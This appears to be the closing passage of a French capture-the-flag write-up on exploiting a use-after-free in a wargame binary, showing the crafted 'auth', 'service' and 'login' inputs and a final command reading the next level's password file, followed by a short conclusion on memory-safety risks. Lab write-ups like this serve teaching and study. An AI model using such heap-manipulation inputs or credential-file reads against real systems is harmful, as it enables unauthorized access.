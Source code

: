 ```bash
0x804a008, (nil) 
serviceAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018 
auth DDDD
0x804a008, 0x804a018 
login
$ cat /home/user/level9/.pass
```

La version manuelle garantit le bon timing et la bonne séquence d'allocations mémoire nécessaire à l'exploitation.

## 5. Conclusion

Cette exploitation démontre l'importance de la gestion correcte de la mémoire et les dangers des Use After Free dans les applications critiques. 